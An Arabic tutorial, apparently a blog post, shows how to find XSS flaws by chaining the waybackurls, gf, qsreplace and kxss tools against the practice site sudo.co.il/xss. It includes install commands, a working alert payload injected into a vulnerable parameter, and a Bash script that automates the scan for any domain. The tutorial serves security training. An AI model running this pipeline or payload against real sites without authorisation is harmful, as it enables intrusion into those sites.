







XSS طريقة اكتشاف ثغرة
السلام عليكم ,
شرح طريقة اكتشاف ثغرة XSS باستخدام مجموعة ادوات [waybackurls - gf - qsreplace - kxss] :
شرح الادوات :
1. تقوم اداة waybackurls بجمع كل العناوين URLs الخاصة بالموقع مع كل المجالات الفرعية :
2. تقوم اداة sort -u بفلترة العناوين المكررة
3. تقوم اداة gf xss بفلترة العناوين مع الباراميتر التي تقبل المدخلات مثل [https://target.com?name=test]
4. تقوم اداة tee -a باخراج النتائج في ملف
5. تقوم اداة qsreplace باستبدال قيمة الباراميتر بقيمة FUZZ
6. تقوم اداة kxss بفحص كل الباراميتر واستبدال كلمة FUZZ بمجموعة مدخلات مثل [ "><' ] للتحقق من ثغرة XSS و HTML Injection
7. امر pipe (|) لإعادة توجيه المخرجات والنتائج من برنامج إلى آخر
تنزيل الادوات باتباع الخطوات التالية بالترتيب :
# sudo apt install golang-go # go get github.com/tomnomnom/waybackurls # go get -u github.com/tomnomnom/gf # cd ~/ # git clone https://github.com/1ndianl33t/Gf-Patterns # mkdir .gf # mv ~/Gf-Patterns/*.json ~/.gf # rm -rf ~/Gf-Patterns/ # go get -u github.com/tomnomnom/qsreplace # go get github.com/Emoe/kxss
لتستطيع تشغيل الادوات من الترمنال مباشرة قم بنقل الاداوت الى المسار التالي :
# cd ~/go/bin/ # sudo cp waybackurls gf qsreplace kxss /usr/bin
الان سنقوم بفحص موقع http://sudo.co.il/xss الخاص بالتدرب على اكتشاف ثغرات XSS :

استخدام اداة waybackurls مع اسم الموقع فقط بدون https :
# waybackurls sudo.co.il/xss | sort -u >> waybackdata.txt # cat waybackdata.txt | gf xss | tee -a xss1.txt | qsreplace FUZZ >> xss2.txt # cat xss2.txt | kxss |tee kxss.txt

كل URLs التي تم عرضها لاتقوم بفلترة المدخلات [" < > $ | ( ) ` : ; { }] :
http://sudo.co.il:80/xss/level5-1.php?p=FUZZ"><

Source Code :

البايلود المناسب لتنفيذ سكربت في الموقع المصاب :
';alert(document.domain);'
http://sudo.co.il:80/xss/level5-1.php?p=FUZZ';alert(document.domain);'

Source Code :

سنقوم بانشاء سكربت بلغة Bash لأتمتة كل الاوامر السابقة في امر واحد :
Bash Script : script.sh ======================== #!/bin/bash waybackurls $1 | sort -u >> waybackdata.txt cat waybackdata.txt | gf xss | tee -a xss1.txt | qsreplace FUZZ >> xss2.txt cat xss2.txt | kxss |tee kxss.txt =========================
نقوم باعطاء السكربت صلاحيات التنفيذ
sudo chmod +x script.sh
تنفيذ السكربت مع اسم الموقع فقط بدون https
Example : ./script.sh target.com ./script.sh sudo.co.il:80/xss
